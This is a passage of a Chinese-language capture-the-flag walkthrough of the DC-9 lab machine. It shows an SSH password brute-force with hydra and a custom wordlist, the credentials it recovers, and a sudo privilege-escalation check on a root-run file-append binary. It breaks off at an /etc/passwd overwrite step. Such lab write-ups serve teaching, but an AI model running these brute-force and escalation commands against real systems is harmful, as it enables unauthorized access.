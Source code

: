 <br/> 发现是个文件，进入

<br/> 探索之后发现了新的密码文件，再写一个文件利用`hyrda`爆破
1.  `echo 'BamBam01` 1.  `Passw0rd` 1.  `smellycats` 1.  `P0Lic#10-4` 1.  `B4-Tru3-001` 1.  `4uGU5T-NiGHts' &amp;gt; passwd2.txt` 1.  `# -L 指定账号字典 -P指定密码字典` 1.  `hydra -L user.txt -P passwd2.txt 192.168.208.209 ssh -s 22 -t 64 -o main` 
通过爆破得到了新的用户密码
1.  `[22][ssh] host: 192.168.178.209 login: fredf password: B4-Tru3-001` 
进行`ssh`连接
1.  `sudo ssh fredf&lt;span class="label label-primary"&gt;@192.168.208.209&lt;/span&gt; -p22` 1.  `password &amp;gt; B4-Tru3-001` 
#### FLAG1获取

输入`find`命令之后发现只有`fredf`是可以的
1.  `fredf&lt;span class="label label-primary"&gt;@dc-9&lt;/span&gt;:~$ find / -name local.txt 2&amp;gt;/dev/null` 1.  `/home/fredf/local.txt` 1.  `fredf&lt;span class="label label-primary"&gt;@dc-9&lt;/span&gt;:~$ cat /home/fredf/local.txt` 1.  `4c30c90388a4b5baa8bf21db8529bb51` 
#### 权限提升

##### Linux提权-sudo提权

查找具有`sudo`权限，且不需要密码的可提权文件
1.  `# 利用sudo -l寻找` 1.  `fredf&lt;span class="label label-primary"&gt;@dc-9&lt;/span&gt;:~$ sudo -l` 1.  `Matching Defaults entries for fredf on dc-9:` 1.  `env_reset, mail_badpass,` 1.  `secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin` 1.   1.  `User fredf may run the following commands on dc-9:` 1.  `(root) NOPASSWD: /opt/devstuff/dist/test/test` 
只有`fredf`用户是存在`sudo`

追踪一下这个文件
1.  `# 权限查看 (读与执行)` 1.  `fredf&lt;span class="label label-primary"&gt;@dc-9&lt;/span&gt;:~$ ls -al /opt/devstuff/dist/test/test` 1.  `-rwxr-xr-x 1 root root 1212968 Dec 29 2019 /opt/devstuff/dist/test/test` 1.  `# 查看内容发现看不了` 1.  `fredf&lt;span class="label label-primary"&gt;@dc-9&lt;/span&gt;:~$ cat /opt/devstuff/dist/test/test` 
<br/> 尝试运行
1.  `fredf&lt;span class="label label-primary"&gt;@dc-9&lt;/span&gt;:$ cd /opt/devstuff/dist/test` 1.  `fredf&lt;span class="label label-primary"&gt;@dc-9&lt;/span&gt;:/opt/devstuff/dist/test$ ./test` 1.  `Usage: python test.py read append` 1.   1.  `fredf&lt;span class="label label-primary"&gt;@dc-9&lt;/span&gt;:/opt/devstuff/dist/test$ sudo /opt/devstuff/dist/test/test` 1.  `Usage: python test.py read append` 
读不了，显示是读`test.py` ，说明使用`test`应该是需要参数的
1.  `# 全局搜索` 1.  `fredf&lt;span class="label label-primary"&gt;@dc-9&lt;/span&gt;:/opt/devstuff/dist/test$ find / -name "test.py" 2&amp;gt;/dev/null` 1.  `/opt/devstuff/test.py` 1.  `/usr/lib/python3/dist-packages/setuptools/command/test.py` 
发现了两个，应该是上面那个
1.  `cat /opt/devstuff/test.py` 
如果传递的参数不等于3，就会输出`Usage: python test.py read append`

不然会读取输入第一个参数内的文件追加写入到第二个参数
1.  `#!/usr/bin/python` 1.   1.  `import sys` 1.   1.  `if len (sys.argv) != 3 :` 1.  `print ("Usage: python test.py read append")` 1.  `sys.exit (1)` 1.   1.  `else :` 1.  `f = open(sys.argv[1], "r")` 1.  `output = (f.read())` 1.   1.  `f = open(sys.argv[2], "a")` 1.  `f.write(output)` 1.  `f.close()` 
#### /etc/passwd覆盖提权
